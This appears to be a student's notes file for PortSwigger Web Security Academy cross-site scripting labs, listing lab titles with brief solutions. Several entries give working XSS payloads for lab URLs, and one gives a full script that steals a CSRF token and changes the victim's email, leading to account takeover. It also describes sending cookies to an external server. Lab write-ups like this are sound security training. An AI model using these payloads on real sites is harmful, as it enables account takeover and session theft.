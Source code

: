 # Cross-Site Scripting

## Apprentice
- Reflected XSS into HTML context with nothing encoded
- Stored XSS into HTML context with nothing encoded
- DOM XSS in document.write sink using source location.search
- DOM XSS in innerHTML sink using source location.search
- DOM XSS in jQuery anchor href attribute sink using location.search source
- DOM XSS in jQuery selector sink using a hashchange event
- Reflected XSS into attribute with angle brackets HTML-encoded
- Stored XSS into anchor href attribute with double quotes HTML-encoded
- Reflected XSS into a JavaScript string with angle brackets HTML encoded

## Practitioner
- DOM XSS in document.write sink using source location.search inside a select element
    - Inject malicious javascript into the storeId query parameter to escape from the string. URL: https://0ac0003b03854101851caa5f00c50027.web-security-academy.net/product?productId=1&storeId=%22%3E%3C/select%3E%3Cimg%20src=1%20onerror=alert(1)%3E
- DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded
- Reflected DOM XSS
- Stored DOM XSS
- Reflected XSS into HTML context with most tags and attributes blocked
- Reflected XSS into HTML context with all tags blocked except custom ones
    - Used the Burp XSS cheat sheet payloads to determine that \<SVG> is not blocked, and in particular the
    \<animatetransform> tag. Used intruder to discover that the onbegin event is not blocked. Inserted the URL-encoded payload into the URL as the search query parameter: %22%3E%3Csvg%3E%3Canimatetransform%20onbegin=alert(1)%3E 
- Reflected XSS in canonical link tag
- Reflected XSS into a JavaScript string with single quote and backslash escaped
    - The search query payload is interpolated directly in a script. Break out of the string by using this payload: \</script><script>alert(1)</script>
- Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped
    - Break out of the string using a backslash and single quote, since the backslash is not escaped. Payload: \'-alert();\\\
- Stored XSS into onclick event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped
    - use \&apos; as the user's website to break out of the string and trigger alert. Payload: http://foo?&apos;-alert(1)-&apos;
- Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped
    - Take advantage of the template literal to use string interpolation. Payload: ${alert()}
- Exploiting cross-site scripting to steal cookies
    - Uses the Burp Collaborator feature (professional) as an external server to send the cookie to. You can take advantage of the fact that HTML tags are not escaped to inject a script into the comment input.
- Exploiting XSS to bypass CSRF defenses
    - Take advantage of the lack of input validation in the comment input to inject a script which steals the csrf token and includes it in a request to change the user's email when the page loads --> account takeover. Payload: \<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>